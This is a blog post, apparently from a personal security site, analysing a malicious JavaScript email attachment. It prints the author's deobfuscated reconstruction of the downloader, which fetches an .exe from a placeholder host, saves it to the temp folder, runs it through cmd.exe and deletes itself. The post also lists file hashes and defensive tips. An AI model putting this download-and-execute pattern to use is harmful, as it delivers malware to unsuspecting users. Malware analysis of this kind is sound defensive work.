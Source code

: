 ```yaml
---
layout:     post
title:      "Analyzing JavaScript Malware"
subtitle:   "Quick Story Behind Spam Attachment"
date:       2016-10-29 0:00:00
author:     "W3ndige"
header-img: "img/analyzing-javascript-malware-header.jpg"
permalink: /:title/
category: Malware
---
```


<h1>Backstory</h1>

<p>About half of a year ago, my girlfriend got e-mail from post office saying that the the package was ready to pickup, with a quick note saying that more information is available in the attachment. I was asked to look at it, as she found it suspicious - mail was written very poorly - definitely not what official mail would sound like. Firstly I took a look at the domain, from where this mail was sent, and as I excepted, it was not connected to domains of our post service. But what I really wanted to know was, what's the goal of the attachment? </p>

<h1>First contact</h1>

<p>After downloading it, I noticed that the extension of the file was <b>.js</b> - some JavaScript file. But it was only possible because I had turned on showing files with their extensions. Someone without this option would see it only as .txt file. Viewing the source, unfortunately at first, gave me no clue how it works. Script was made of around 400 lines of code. But after looking closer it seemed, that around quarter of the code was actually part that did something, rest was only filled with assigned variables and functions returning pieces of words. </p>

{% highlight javascript %}
var tbuloq1 = {
	itxy:'plebydva', 8423:730, ldipli:353, lgahze:"AtEn", ekxov:'dipyvvo'
}
["lgahze"];
function daqkuvtejqa3 () {
           var ssororg0 = {
		lifki:'hylxyzra', 2216:"d", 6034:'ubylivw'
	}
	;
	var xhahbolz3 = ssororg0["2216"];
           return xhahbolz3;
}

{% endhighlight %}

<p>But after some time I noticed a pattern - in last 30 lines of code, there were only references to the variables, and after connecting them together what I got, was much more readable than before. In example, if you take this piece of code and connect to the variables in the beggining, what you'll get is something more likely looking like this. </p>

{% highlight javascript %}
ejybpib6= zoracufyp7[nsatqe9 + oxqokowj9 + ynxyru7 + exgemko2];
{% endhighlight %}

<p>Great, now to make it clearer to read I have to do the same. Unfortunately I'm not completely sure that it's 'translated' 100% correctly, but it still gives me insight into how this script may work. </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
{% endhighlight %}

<p>Finally, after around 3 hours, I got the full translation. But I've got still a few questions, what is WScript and how it works? </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
ehynzedda7 = WScript.CreateObject(Scripting.FileSystemObject);
elmona4 = WScript.CreateObject(WScript.Shell);
acjihy9 = WScript.CreateObject(MSXML2.XMLHTTP);
jyfej9 = WScript.CreateObject(ADODB.Stream);
oqavate7 = ehynzedda7.GetSpecialFolder(2);

if (typeof document == undefined) {
  kagignu5 = WScript.CreateObject(Scripting.FileSystemObject).GetTempName();
}

if(typeof WScript.StdIn.AtEndOfStream == unknown) {
  ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).open(GET, 'http://some_ip_address/8899.exe', 0);
}
ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).send();
WScript.CreateObject(ADODB.Stream).type = 1;
try {
    if(!WScript.Arguments.Unnamed.length]) {
			oxacobmo3 = WScript.CreateObject(MSXML2.XMLHTTP).ResponseBody;
		}
    ruzetpa0 = WScript.ScriptFullName;
    ixzebni1 = WScript.CreateObject(ADODB.Stream)Open();
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Write(oxacobmo3);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).SaveToFile(oqavate7 + kagignu5);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Close();
    ixzebni1 = WScript.CreateObject(WScript.Shell).run(cmd.exe /c + oqavate7 + kagignu5, 0;
    ixzebni1 = WScript.CreateObject(Scripting.FileSystemObject).deleteFile(ruzetpa0);
}
catch(e) {
}

{% endhighlight %}

<p>Okay, as far as I can understand, it downloads the file from url (not shown in this code), and somehow executes it, maybe using cmd?  But for better insight I had to dig for references showing the use of the WScript and other functions show in this code. </p>

<h1>Understanding</h1>

<p><b>Windows Host Script</b> is an Windows eviroment, providing the user with a possibility to run scripts in a variety of languages. By default, when JavaScript is saved to your hard drive, it will be run by WSH with power of executable file. </p>

<p>Script uses these WScript calls: </p>

<ul>
<li><b>WScript.CreateObject(WScript.Shell)</b> - provides access to shell methods of operating system.</li>
<li><b>WScript.CreateObject(MSXML2.XMLHTTP)</b> - XML request using HTTP.</li>
<li><b>WScript.CreateObject(ADODB.Stream)</b> - is used to represent a stream of data or text.</li>
</ul>

<p><b>GetSpecialFolder(2)</b> will get the %TEMP% folder. </p>

<p>Then the script creates the XML request to get the data from specified URL and, then it sends the request. </p>

<p>After that script creates a series of commands to: </p>

<ol>
<li>Get the response body of the request. </li>
<li>Write it to a file in tmp directory. </li>
<li>Save and close the file. </li>
<li>Execute through CMD</li>
<li>Lastly, it will delete the file. </li>

</ol>

<p>Unfortunately, .exe file was not available, while I got to check, and I couldn't find as much info about it as I wanted. The only information I could find were: </p>

{% highlight text %}
Operating System: Windows 7 / 8 / 8.1 / 10
Singature Name: QVM07.1.Malware.Gen

Main Info:

Name: 8899.exe

Size: 569464

Type: PE32 executable (GUI) Intel 80386, for MS Windows

MD5: 3771453fc565a0436534d509dcb7da9f

SHA1: 803e3634a70dd3b9ce2b409b108cb1baf5fa3d08

Freezing computer.
New home page in browsers.
Ads and pop-ups on desktop and browser.
Very slow loading speed of webpages.
Computer work slower then usual.
{% endhighlight %}

<h1>Conclusion</h1>

<p>Author of this malware did a lot, to try and obfuscate this script, as I spent a lot of time trying to make it readable, but still it wasn't as complicated as I thought at first. To stay protected from these kinds of attacks, remember to tell explorer to open .js files through the Notepad by default, as well as show files with their extensions. That way you will see if it's really a text document or .txt.js malware. And the most important step, don't download files that you're unsure about. Simply, don't trust anyone ;) </p>

<p>I had great fun, trying to understand the concept, and even though you may think, that it was very simple, I still learned a lot from this. Anyway, thanks for reading, I hope you learned something new, and I'll see you in the next one! </p>

<p>~ Stay safe!</p>

